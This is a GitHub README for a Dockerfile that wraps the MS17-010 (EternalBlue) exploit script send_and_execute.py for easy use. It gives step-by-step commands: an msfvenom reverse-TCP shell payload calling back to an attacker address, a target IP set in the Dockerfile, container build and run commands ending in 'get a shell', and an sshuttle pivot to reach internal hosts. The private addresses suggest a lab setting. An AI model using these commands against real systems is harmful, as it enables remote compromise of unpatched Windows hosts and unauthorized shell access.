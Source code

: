 # MS17-010-Dockerfile

Most of the python scripts to manually use MS17-010 depends on python2 and pip. This just makes it easier to use.

This is a dockerfile to make the use of send_and_execute.py easier. 

It uses the library mysmb.py from 

wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

And send_and_execute from 

https://raw.githubusercontent.com/H3xL00m/MS17-010_CVE-2017-0143/main/send_and_execute.py

# How to use it

1) Git clone this repo

2) Generate your payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.52 LPORT=44449 EXITFUNC=thread -f exe -a x86 --platform windows -o -rev.exe
```

Put it in files/

3) Modify the Dockerfile to set your target. Change the last line

```
CMD ["/usr/local/bin/python", "./send_and_execute.py", "172.16.1.20", "./rev.exe"]
```

3) Build your container

```
docker build -t eternalblue ./
```

4) Setup your listener to the port used in your payload

5) Run your container

```
docker run -it eternalblue
```

6) Get a shell

## Pivoting

I've had good luck with sshuttle to target a host that is not directly accessible from my local machine

Make sure that sshuttle is exposing the rules to 0.0.0.0

```
sshuttle -r root@10.10.110.100 172.16.1.0/24 -v --dns -l 0.0.0.0
```

Bring the tunnel up just before running the container


